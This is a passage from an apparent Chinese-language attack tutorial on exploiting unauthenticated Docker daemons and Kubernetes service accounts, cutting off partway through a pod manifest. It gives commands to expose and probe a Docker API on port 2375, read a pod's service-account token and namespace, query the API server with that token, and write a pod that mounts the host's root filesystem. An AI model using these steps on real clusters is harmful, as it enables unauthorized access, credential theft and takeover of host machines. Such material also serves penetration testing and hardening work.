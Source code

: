 ```php
#开启远程访问
vim /lib/systemd/system/docker.service
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375 -containerd=/run/containerd/containerd.sock
Docker Daemon未授权访问的检测与利用：

#探测是否访问未授权访问
curl http://192.168.238.129:2375/info
docker -H tcp://192.168.238.129:2375 info

#推荐使用这种方式，操作方便。
export DOCKER_HOST="tcp://192.168.238.129:2375"
```

Docker Daemon未授权实战案例：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-85cac4695c1716366916dedcc640e3379ad9fddd.png)

### 执行

- 利用Service Account
- nCURL方式请求
- nkubectl方式请求

#### 利用Service Account

K8s集群创建的Pod中，容器内部默认携带K8s Service Account的认证凭据，路径为：(/run/secrets/kubernetes.io/serviceaccount/token)

如运维配置不当没有设置RBAC（基于角色的访问控制）,那么攻击者就可以通过Pod获取到Token进行API Server认证。

在较低版本v1.15.11中,Kubernetes默认是不会开启RBAC控制，从1.16版本起，默认启用RBAC访问控制策略。从1.18开始，RBAC已作为稳定的功能。

下面就是利用Pod中的Token访问API Server的一种场景：

```php
#指向内部 API 服务器主机名
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
#设置 ServiceAccount 令牌的路径
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
#读取 pods 命名空间并将其设置为变量。
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
#读取 ServiceAccount 不记名令牌
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
# CACERT 路径
export CACERT=${SERVICEACCOUNT}/ca.crt
执行以下命令查看当前集群中所有Namespaces。
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces
#写入yaml,创建特权Pod
cat > nginx-pod.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: test-444
spec:
  containers:
  - name: test-444
    image: nginx:1.14.2
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```